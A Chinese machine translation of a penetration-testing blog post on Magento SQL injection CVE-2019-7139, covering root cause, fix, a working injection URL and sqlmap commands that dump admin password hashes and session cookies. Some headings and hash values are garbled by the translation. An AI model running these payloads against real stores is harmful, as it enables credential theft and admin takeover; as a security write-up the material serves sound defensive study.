

# 使用 Sqlmap | Pentest-Tools.com 在 Magento 中开发 SQL 注入

> 原文：<https://pentest-tools.com/blog/exploiting-sql-injection-in-magento-with-sqlmap>

在本文中，我们展示了一种利用 Magento (CVE-2019-7139)中关键 SQL 注入漏洞的新方法，使用了众所周知的 [SQLMap](http://sqlmap.org/) 工具。

在解释了漏洞细节之后，我们展示了如何使用 SQLMap 从数据库中提取任意信息，这是一种比最初的漏洞利用更强大的方法，它只能提取非常有限的信息。

## 内容

1.  [**关于 Magento**](#1-about-magento)

2.  [**漏洞分析**](#2-vulnerability-analysis)

3.  [**缓解**](#3-mitigation)

4.  [**触发漏洞**](#4-triggering-the-vulnerability)

5.  [**利用 SQLMap** 开发 ](#5-exploitation-with-sqlmap)

## 1.关于 Magento

Magento 是一个流行的开源电子商务平台，目前有超过 220，000 家店铺活跃。这使得它成为黑客的一个有吸引力的目标。在过去的几年里，黑客利用多个漏洞入侵 Magento 网站，并植入恶意脚本，窃取结账页面上的支付数据。这种类型的攻击被称为 web skimming，黑客用它来攻击成千上万的网站。

## 2.弱点分析

[CVE-2019-7139](https://nvd.nist.gov/vuln/detail/CVE-2019-7139) ，又名 [PRODSECBUG-2198](https://magento.com/security/patches/magento-2.3.1-2.2.8-and-2.1.17-security-update) ，是一个未经认证的 [SQL 注入漏洞](https://pentest-tools.com/website-vulnerability-scanning/sql-injection-scanner-online)，影响 Magento 的部分版本。这个漏洞是由安全公司 Ambionics 的研究员 Charles Fol 发现的。

以下版本的 Magento 会受到此漏洞的影响:

```
• Magento Open Source <= 1.9.4.0	

• Magento Commerce <= 1.14.4.0	

• Magento 2.1 <= 2.1.16	

• Magento 2.2 <= 2.2.7	

• Magento 2.3.0
```

该漏洞存在于文件`lib\Magento\Framework\DB\Adapter\Pdo\Mysql.php`的方法`prepareSqlCondition`中，是由 SQL 查询构造方式的逻辑错误引起的。

为了更好地理解漏洞的根本原因，我们应该看看这个文件中 Magento 代码的一些片段。以下是漏洞的相关行:

```
<?php
/****
 ** Build SQL statement for condition
 **/
public function prepareSqlCondition($fieldName, $condition) {
    $conditionKeyMap = [
        'from'          => "{ {fieldName} } >= ?",
        'to'            => "{ {fieldName} } <= ?"
    ];
    $query = '';
    if (is_array($condition)) {
        if (isset($condition['from']) || isset($condition['to'])) {
            if (isset($condition['from'])) {
            [1] $from  = $this->_prepareSqlDateCondition($condition, 'from');
                $query = $this->_prepareQuotedSqlCondition($conditionKeyMap['from'], $from, $fieldName);
            }
            if (isset($condition['to'])) {
                $query .= empty($query) ? '' : ' AND ';
                $to     = $this->_prepareSqlDateCondition($condition, 'to');
                $query = $this->_prepareQuotedSqlCondition($query . $conditionKeyMap['to'], $to, $fieldName);
            }
        }
    }
    return $query;
}

protected function _prepareQuotedSqlCondition($text, $value, $fieldName) {
    $sql = $this->quoteInto($text, $value);
    $sql = str_replace('{ {fieldName} }', $fieldName, $sql);
    return $sql;
}
?>
```

使用关联数组`$condition`和变量`$fieldname`，方法`prepareSqlCondition`通过将给定的条件映射到`$conditionKeyMap`来构造 SQL 查询。当设置了字段$condition['from']和$condition['to']时，会触发此漏洞。下面的代码显示了 bug 是如何以及何时弹出的:

我们的分析从[1]开始:

1.首先，我们做作业`$from = $condition['from']`。然后我们调用`_prepareQuotedSqlCondition`，看起来像这样:

```
$query = $this->_prepareQuotedSqlCondition("{ {fieldName} } >= ?", $condition['from'], $fieldName)
```

这个方法的作用是替换第一个“？”用变量`$condition['from']`和`{ {fieldName}`找到。在该调用结束时，查询变成:

```
$query = "$fieldName >= $condition['from']"
```

2.现在，对于领域`$condition['to']`。我们的疑问首先转向:

```
$query = "$fieldName >= $condition['from'] AND "
```

下一步是进行与之前`$to = $condition['to']`相同的分配。但是，一个问题出现了，因为下一个调用将是:

```
$query = $this->_prepareQuotedSqlCondition("$fieldName >= $condition['from'] AND { {fieldName} } <= ?", $condition['to'], $fieldName)
```

如前所述，这种方法取代了第一个“？”它用`$condition['to']`找到。如果我们加上“？”在`$condition['from']`中，我们可以用`$condition['to']`来代替。比如考虑`$condition['from'] = "?"`。上述调用后的结果查询变成:

```
$query =  "$fieldName >= $condition['to'] AND $fieldName  <= ?"
```

通过将`$condition ['to']`设置为适当的 SQL 代码，我们将成功地修改预期的查询。例如，如果是`$condition[‘to’] = "1 OR 1=1 -- "`，那么 SQL 查询就变成`$query = "$fieldName >= 1 OR 1=1 -- AND $fieldName <= ?"`。

## 3.减轻

要解决这个问题，行

```
$query = $this->_prepareQuotedSqlCondition($query . $conditionKeyMap['to'], $to, $fieldName);
```

应该是:

```
$query = $query . $this->_prepareQuotedSqlCondition($conditionKeyMap['to'], $to, $fieldName);
```

Magento 的最新版本已经修复了 CVE-2019-7139 漏洞。

## 4.触发漏洞

为了在测试环境中重现漏洞，我们在 Docker 中运行了 Magento 2 . 2 . 6；图片可从[这里](https://hub.docker.com/r/alexcheng/magento2/)免费获取。

在最初的文章中，通过使用控制器`lib\Magento\Catalog\Controller\Product\Frontend\Action\Synchronize.php`来利用该漏洞。然而，**这种剥削方式只在 Magento > = 2.2.0** 中有效。

SQL 注入的有效 URL 是:

```
https://local.magento/catalog/product_frontend_action/synchronize?

type_id=recently_products&

ids[0][added_at]=&

ids[0][product_id][from]=?&

ids[0][product_id][to]=))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -
```

由此开始，我们可以触发基于内容的[盲 SQLi](https://pentest-tools.com/blog/sql-injection-attacks/#blind-sqli) 或基于时间的盲 SQLi。下面是对数据库进行 GET 请求的两个示例:

### –盲 SQL 注入–基于内容

对于基于内容的盲 SQL 注入，下面的两个查询将当前用户的第一个字符与字符“A”进行比较。如果条件为真，服务器返回 **HTTP 400 错误请求**，因为我们试图将一个 1 列结果与一个 2 列结果连接起来。如果为假，我们得到 **HTTP 200 OK** ，因为联合后的选择被忽略。

 

### –盲 SQL 注入–基于时间

对于基于时间的盲目 SQL 注入，我们看到了服务器响应时间的差异。如果条件评估为 false，则调用 SLEEP(5 ),服务器将在响应前休眠 5 秒钟。否则，我们会立即得到响应。

 

## 5.使用 SQLMap 开发

原作者已经发布了针对该漏洞的[概念验证利用](https://github.com/ambionics/magento-exploits/blob/master/magento-sqli.py)；但是，它从数据库中提取的信息量非常有限。

通过使用 [SQLMap](https://pentest-tools.com/exploit-helpers/sqli-exploit-tool-sqlmap-online) ，一种更通用的利用方法是可能的。我们的目标是从数据库中提取任意信息，包括所有 Magento admin 用户的凭证。

SQLMap 是利用数据库漏洞的事实上的工具，因为它在支持的参数方面具有多功能性——比如指定 HTTP 选项、SQLi 技术、要提取的信息等等。既然我们知道漏洞是一个盲 SQLi，那么相关的技术就是内容(*被 SQLMap* 称为布尔盲)和基于时间的 SQL 注入。更简单的方法是基于内容的攻击，这是我们要关注的。

**注意:**要成功使用该方法，您必须使用参数`--ignore-code=400`或`--code=400`；否则，当 SQLMap 收到 HTTP 错误代码时，它会认为自己做错了什么。

### **第一步**

在验证我们技术的有效性之前，这里列出了我们将在本节中使用的一些常用参数:

```
-u          : the target url, with parameters included
--prefix    : prefix to add before the payload
--suffix    : suffix to add after the payload
-p          : parameter on which to inject the payload
--dbms      : database we assume to be running on target
--level     : range and number of payloads tried (1 to 5)
--risk      : risks of tests to perform (1 to 3)
--technique : technique to use; choose from one or more letters from "BEUSTQ"
--o         : some performance optimization
```

首先，我们将使用以下命令提取当前数据库(参数`--current-db`):

```
sqli@magento:~$ ./sqlmap.py -u 'http://local.magento/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=?&ids[0][product_id][to]=' -p "ids[0][product_id][to]" --prefix=")))" --suffix=" -- -" --dbms=mysql --technique=B --ignore-code=400 --level=5 --risk=3 -o --current-db
```

成功利用 SQLMap 需要的特殊参数有:`--prefix`、`--suffix`和`ignore-code`。

结果:

### 获取更敏感的数据

现在我们想从数据库中提取更多有趣的东西，比如管理员凭证。以下是所需的步骤:

1.  查找名称中带有' admin '的表:我们可以使用 SQLMap 来搜索名称中带有某些字符串的表。当点击一个时，它浏览并打印相关结果。在我们的例子中，明显的表名是“admin ”,下面是 SQLMap 可以为我们找到的内容:

```
sqli@magento:~$ ./sqlmap.py -u 'http://local.magento/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=?&ids[0][product_id][to]=' -p "ids[0][product_id][to]" --prefix=")))" --suffix=" -- -" --dbms=mysql --technique=B --ignore-code=400 --level=5 --risk=3 -o --search -T admin
```

结果:

如果站点管理员仔细修改了默认表名，我们可以尝试不同的搜索字符串或使用–tables 枚举数据库中的所有表名。

2.  现在，让我们转储 **admin_user** 表并查看其内部:

```
sqli@magento:~$ ./sqlmap.py -u 'http://local.magento/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=?&ids[0][product_id][to]=' -p "ids[0][product_id][to]" --prefix=")))" --suffix=" -- -" --dbms=mysql --technique=B  --ignore-code=400 --level=5 --risk=3 -o --dump -D magento -T admin_user
```

新参数用于指定搜索区域:`-D`用于数据库，`-T`用于表。这里我们将只显示用户名和密码列，因为它们是我们感兴趣的:

| 用户 | 密码 |
| --- | --- |
| admin1 | 97999302 a 66 b 6 DCF 480 c 48681603509 ef 827d 71423307 f 3461857 BC 26 c 4362 c 8:
rd 6 fn hdn 6 bqozfklzr 5 nt 9 KF BDS 1 gpgv:1 |
| 管理 | 815 ba FCA 0 bb 99 e 3709 f 6 FBE 5b 0d 941d 997 a5c 23d 3 f 7 a 4 e 0 BC C4 a9 b 77 b 8608 be 9:
oid BCA 8 TP 41 bnlxwwlekgs 4 RM 5 lefjih:1 |

请注意，密码以字符串形式存储在数据库中，由“:”分隔成三部分

```
1) hash of salt and password
2) salt, by default of 32 bits length
3) version, where 1 is SHA256 and 0 is MD5
```

有了这些信息，就可以用普通工具破解密码，如[哈希卡特](https://hashcat.net/hashcat/)或[开膛手约翰](https://www.openwall.com/john/)。

3.  一种更快的方法不是破解密码，而是从**admin _ user*_*session**表中提取会话 cookies，如果有有效的话；这些都带有网站的管理员权限。默认情况下，会话 cookie 的有效期为 15 分钟，但该值是可定制的。和以前一样，我们必须转储表中的内容。为了说明 SQLMap 的另一个功能，这里我们将直接转储所需的列。

```
sqli@magento:~$ ./sqlmap.py -u 'http://local.magento/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=?&ids[0][product_id][to]=' -p "ids[0][product_id][to]" --prefix=")))" --suffix=" -- -" --dbms=mysql --technique=B --level=5 --risk=3 -o --dump -D magento -T admin_user_session -C session_id
```

### 了解如何使用 SQLMap 来利用 Magento 中的 SQL 注入漏洞

在本文中，我们探索了 Magento (CVE-2019-7139)中最近的一个 SQL 注入漏洞，了解了其根本原因，然后我们展示了一种更强大的利用方法，该方法使用 SQLMap。您还可以了解当一个经过[认证的用户滥用 Magento 的协议指令](https://pentest-tools.com/blog/magento-authenticated-rce)来实现基于 PHAR 文件反序列化方式的远程代码执行时会发生什么。

*我们建议将 Magento 升级至最新版本，以缓解此漏洞，因为它相对容易被利用。*